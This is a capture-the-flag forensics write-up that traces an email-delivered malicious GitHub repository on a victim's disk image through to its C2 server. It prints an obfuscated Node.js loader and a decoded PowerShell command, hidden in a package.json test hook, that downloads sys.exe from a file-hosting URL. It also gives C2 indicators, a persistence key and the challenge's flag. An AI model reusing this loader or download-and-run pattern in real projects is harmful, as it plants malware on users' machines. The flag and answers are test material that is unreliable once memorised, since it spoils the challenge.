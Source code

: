 ```yaml
---
layout: post
title: "Securinets Qual 2025 - Silent Visitor"
date: 2025-10-07
---
```

<div markdown=1 class="blurb" >

# Summary
Disk image forensic that contains malicious executable that is distributed via email and a C2 beacon connection.

# Writeup
Given a .ad1 file which is a disk image forensic acquisition and a bunch of questions to be answered.

#### What is the SHA256 hash of the disk image provided?
Perform a calculation SHA256 checksum of disk image using HashMyFile `122b2b4bf1433341ba6e8fefd707379a98e6e9ca376340379ea42edb31a5dba2`
![](../image/silent-visitor/mal-hash.png)

#### Identify the OS build number of the victim’s system?
Load the disk image using FTK imager and it seems this challenge dump all of the `C:\` drive.
![](../image/silent-visitor/ftk.png)

After that to dump the OS build number without CLI is using SOFTWARE registry, using Registry Explorer from [Eric Zimmerman Tools Collection](https://ericzimmerman.github.io/#!index.md). As we can see in image below the OS build number lies on `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion` which is `19045`.
![](../image/silent-visitor/build-number.png)

#### What is the ip of the victim's machine?
To view the IP address of victim's machine, we can dump the SYSTEM registry on `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\{GUID}` on `DhcpIPAddress`.
![](../image/silent-visitor/ip.png)

#### What is the name of the email application used by the victim?
For email application we can see on the `C:\program files` to list all of the program that has been installed on the victim's PC. It seems he use `Mozilla Thunderbird` as the email client application.
![](../image/silent-visitor/mail.png)

#### What is the email of the victim?
Mozilla Thunderbird store all of the data inside user's app data `C:\Users\ammar\AppData\Roaming\thunderbird\profiles\xxx`.
![](../image/silent-visitor/victim-mail.png)

#### What is the email of the attacker?
For attacker's email, we can inspect the ammar mail inbox from `INBOX` file. By searching naively with "from" keyword as we can see `masmoudim522@gmail.com` sent an email to ammar.
![](../image/silent-visitor/att-mail.png)

#### What is the URL that the attacker used to deliver the malware to the victim?
In one of the message, masmoudim sent an email with a GitHub link `https://github.com/lmdr7977/student-api`. We need to inspect the GitHub repository.
![](../image/silent-visitor/mal-mail.png)

This is the repository which contains several .js files with a potentially suspicious `proc.js` file. 
![](../image/silent-visitor/mal-mail2.png)

This is the content of `proc.js` with obfuscated string constants and malicious code to run command with `child_process` library.
```javascript
(function(){
    const _0x4f3c = [
      'cGhsc2VjcGM=',
      'Y2hpbGRfcHJvY2Vzcw==',
      'Y29uc29sZQ==',
      'YXBwZGF0YQ==',
      'c3lzLmV4ZQ==',
      'ZXhlYw==',
      'bG9n',
      'ZXJyb3I=',
      'U3RhcnQgd2l0aCA='
    ];
  
    function _decode(b64) {
      return Buffer.from(b64, 'base64').toString('utf-8');
    }
  
    const _require = require;
    const child = _require(_decode(_0x4f3c[1]));  // 'child_process'
    const path = _require('path');
    const sysenv = process.env[_decode(_0x4f3c[3])]; // 'appdata'
    const exePath = path.join(sysenv, _decode(_0x4f3c[4])); // 'sys.exe'
  
    const run = child[_decode(_0x4f3c[5])]; // 'exec'
  
    run(`start "" "${exePath}"`, (err) => {
      if (err) {
        _require(_decode(_0x4f3c[2]))[_decode(_0x4f3c[7])](err); // console.error
      } else {
        _require(_decode(_0x4f3c[2]))[_decode(_0x4f3c[6])](_decode(_0x4f3c[8]) + exePath); // console.log
      }
    });
  })();
```

Upon inspecting the package.json file it contains a malicous javascript command configuration `test` that will run powershell command with a hidden / in background process and the payload is encoded with base64. 
![](../image/silent-visitor/package.png)

After decoding the base64, we can get the powershell original command that will perform file download for malicious executable `sys.exe`

```powershell
$w = "Invoke-WebRequest";
$u = "https://tmpfiles.org/dl/23860773/sys.exe";
$o = "$env:APPDATA\sys.exe";
Invoke-WebRequest $u -OutFile $o
```

#### What is the SHA256 hash of the malware file?
Perform another SHA256 checksum of the `sys.exe` the result is `be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d`  

#### What is the IP address of the C2 server that the malware communicates with?
We can directly upload the malicious executable to VirusTotal ~*I'm too lazy to perform reverse engineering 😆*~. By the way the malicious file was made with Go. As we can see, the file is a real malware and it's being detected by 10 anti-virus platforms
![](../image/silent-visitor/vt1.png)

To check the C2 server IP address we can visit the behaviour tab on VirusTotal 
![](../image/silent-visitor/vt2.png)

#### What port does the malware use to communicate with its Command & Control (C2) server?
for the port is the same as image above (5000)

#### What is the url if the first Request made by the malware to the c2 server?
The first request for the C2 server maybe it's a beacon request to check the connection between the server and the application is alive. `http://40.113.161.85:5000/helppppiscofebabe23`
![](../image/silent-visitor/vt2.png)

#### The malware created a file to identify itself. What is the content of that file?
Malware created the identity, check on the `files written` tab, visit `C:\Users\Public\Documents\id.txt` and the result is `3649ba90-266f-48e1-960c-b908e1f28aef`
![](../image/silent-visitor/vt3.png)
![](../image/silent-visitor/id.png)


#### Which registry key did the malware modify or add to maintain persistence?
The malware created registry key to maintain persistence in case the user is aware of the presence. On the `Registry Action` there is a  `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\MyApp`
![](../image/silent-visitor/vt4.png)


#### What is the content of this registry?
Malware is writing the executable into the registry that may be executed to maintaining access to the C2 server.
![](../image/silent-visitor/reg.png)


#### The malware uses a secret token to communicate with the C2 server. What is the value of this key?
The simple way is to perform string search on the malicious executable with "secret" keyword and we got the secret key on the Go compiler `-ldflags`.
![](../image/silent-visitor/secrets.png)

#### flag: Securinets{de2eef165b401a2d89e7df0f5522ab4f}